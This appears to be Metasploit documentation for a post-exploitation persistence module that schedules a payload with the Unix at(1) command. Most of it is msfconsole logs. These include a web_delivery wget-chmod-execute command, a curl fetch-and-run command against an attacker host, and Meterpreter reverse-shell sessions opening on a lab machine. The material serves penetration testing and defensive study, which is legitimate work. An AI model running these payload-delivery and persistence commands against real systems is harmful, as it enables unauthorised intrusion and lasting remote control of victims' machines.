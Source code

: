 ## Vulnerable Application

This module executes a metasploit payload utilizing `at(1)` to execute jobs at a specific time.  It should work out of the box
with any UNIX-like operating system with `atd` running.  

### OSX

In the case of OS X, the `atrun` service must be launched:

```
sudo launchctl load -w /System/Library/LaunchDaemons/com.apple.atrun.plist
```

### Kali

`at` isn't installed by default. `sudo apt-get install at`.

## Verification Steps

1. Start msfconsole
2. Exploit a box via whatever method
3. Do: `use exploit/multi/persistence/at`
4. Do: `set session #`
5. `exploit`


## Options

  **TIME**

  When to run job via `at(1)`.  Conforms to timespec. Examples can be found in the module's references.

## Scenarios

### Kali Linux

Original shell

```
[*] Processing /home/mtcyr/.msf4/msfconsole.rc for ERB directives.
resource (/home/mtcyr/.msf4/msfconsole.rc)> setg verbose true
verbose => true
resource (/home/mtcyr/.msf4/msfconsole.rc)> setg lhost 192.168.10.144
lhost => 192.168.10.144
resource (/home/mtcyr/.msf4/msfconsole.rc)> use exploit/multi/script/web_delivery
[*] Using configured payload python/meterpreter/reverse_tcp
resource (/home/mtcyr/.msf4/msfconsole.rc)> set srvport 8181
srvport => 8181
resource (/home/mtcyr/.msf4/msfconsole.rc)> set target 7
target => 7
resource (/home/mtcyr/.msf4/msfconsole.rc)> set payload payload/linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
resource (/home/mtcyr/.msf4/msfconsole.rc)> set lport 4545
lport => 4545
resource (/home/mtcyr/.msf4/msfconsole.rc)> run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Starting persistent handler(s)...
[*] Started reverse TCP handler on 192.168.10.144:4545 
[*] Using URL: http://192.168.10.144:8181/PaulWjhBSpRlqAz
[*] Server started.
[*] Run the following command on the target machine:
wget -qO o20dAbhk --no-check-certificate http://192.168.10.144:8181/PaulWjhBSpRlqAz; chmod +x o20dAbhk; ./o20dAbhk& disown
[msf](Jobs:2 Agents:0) exploit(multi/script/web_delivery) > 
[*] 192.168.10.144   web_delivery - Delivering Payload (250 bytes)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 192.168.10.144
[*] Meterpreter session 1 opened (192.168.10.144:4545 -> 192.168.10.144:42442) at 2025-02-06 11:40:00 -0500

[msf](Jobs:2 Agents:1) exploit(multi/script/web_delivery) > sessions -i 1
[*] Starting interaction with 1...

(Meterpreter 1)(/tmp) > sysinfo
Computer     : 192.168.10.144
OS           : Debian  (Linux 6.11.2-amd64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
(Meterpreter 1)(/tmp) > background
[*] Backgrounding session 1...
```

Persistence

```
[msf](Jobs:2 Agents:1) exploit(multi/script/web_delivery) > use exploit/multi/persistence/at 
[*] No payload configured, defaulting to cmd/linux/http/x64/meterpreter/reverse_tcp
[msf](Jobs:2 Agents:1) exploit(multi/persistence/at) > set time "now +10 minutes"
time => now +10 minutes
[msf](Jobs:2 Agents:1) exploit(multi/persistence/at) > set session 1
session => 1
[msf](Jobs:2 Agents:1) exploit(multi/persistence/at) > exploit
[*] Command to run on remote host: curl -so ./tmoAoATss http://192.168.10.144:8080/aZRe4yWUN3U2-lDtdsaGlA;chmod +x ./tmoAoATss;./tmoAoATss&
[*] Exploit running as background job 2.
[*] Exploit completed, but no session was created.

[msf](Jobs:3 Agents:1) exploit(multi/persistence/at) > [*] Fetch handler listening on 192.168.10.144:8080
[*] HTTP server started
[*] Adding resource /aZRe4yWUN3U2-lDtdsaGlA
[*] Started reverse TCP handler on 192.168.10.144:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. at(1) confirmed to be usable as a persistence mechanism
[*] Writing payload to /tmp//YneHFC
[*] Waiting for execution
[*] Meterpreter-compatible Cleaup RC file: /home/mtcyr/.msf4/logs/persistence/192.168.10.144_20250206.4241/192.168.10.144_20250206.4241.rc

[msf](Jobs:3 Agents:1) exploit(multi/persistence/at) > date
[*] exec: date

Thu Feb  6 11:42:44 AM EST 2025
[msf](Jobs:3 Agents:1) exploit(multi/persistence/at) > 
[*] Client 192.168.10.144 requested /aZRe4yWUN3U2-lDtdsaGlA
[*] Sending payload to 192.168.10.144 (curl/8.11.1)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 192.168.10.144
[*] Meterpreter session 2 opened (192.168.10.144:4444 -> 192.168.10.144:36212) at 2025-02-06 11:52:00 -0500

[msf](Jobs:3 Agents:2) exploit(multi/persistence/at) > date
[*] exec: date

Thu Feb  6 11:52:20 AM EST 2025
```